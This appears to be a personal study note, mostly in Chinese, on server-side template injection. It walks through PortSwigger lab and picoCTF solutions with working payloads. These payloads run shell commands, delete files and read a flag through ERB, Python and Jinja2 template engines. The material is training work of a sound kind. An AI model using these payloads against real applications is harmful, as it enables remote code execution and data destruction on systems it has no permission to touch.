 # Server-Side Template Injection

https://portswigger.net/web-security/server-side-template-injection/exploiting

對 Twig, FreeMarker 等框架做 injection

## 機制
```php
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```
注入
```
custom_email={{7*7}}

49
```
### 步驟
1. 檢查 SSTI: 注入 `{{5*2}}` 看會不會回傳 `10`
2. 檢查框架
  - {{7*'7'}} would result in 49 in Twig
  - {{7*'7'}} would result in 7777777 in Jinja2
3. 

## Demo
### Lab1
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic <br>
測試一下，可以發現 message 可以被注入 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=7*7%%3E <br>
> 49

之後就開找檔案 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20system(%22ls%22)%20%%3E <br>
> morale.txt true

之後達成條件：刪除 morale.txt <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20File.delete("morale.txt")%20%%3E <br>
> Lab success

### Lab2
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context
記得用 lab 需求的帳密登入，一開始沒看到戳超久QQ <br>
進入後，可以發現 Preferred name 送出封包為 user.name()，看起來有 SSTI，於是就簡單測了一下
```
blog-post-author-display=7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
>![](webSSTILab2Recc.png)
> 7*7 -> 49

```
blog-post-author-display='7'*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm


blog-post-author-display='7*7&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
>![](webSSTILab2Recc2.png)
>![](webSSTILab2Recc3.png)
>可以發現是 python 後端

之後嘗試用
```
blog-post-author-display=dir(__builtins__)&csrf=hQtKf7CiArqjjjwZVcj6BNQoOxPXPEfm
```
> ![](webSSTILab2FindPacketage.png)


單純使用 system('ls') 會遇到 os not defind，所以要加上 `__import__('os')`
```
blog-post-author-display=__import__('os').system('ls')&csrf=2N6vi7b7I2kOpVuWutfwq1WwPMhusd6U
```

```
blog-post-author-display=__import__('os').system('rm morale.txt')&csrf=2N6vi7b7I2kOpVuWutfwq1WwPMhusd6U
```


### picoCTF SSTI1
payload
```twig
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

result
```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```
payload
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

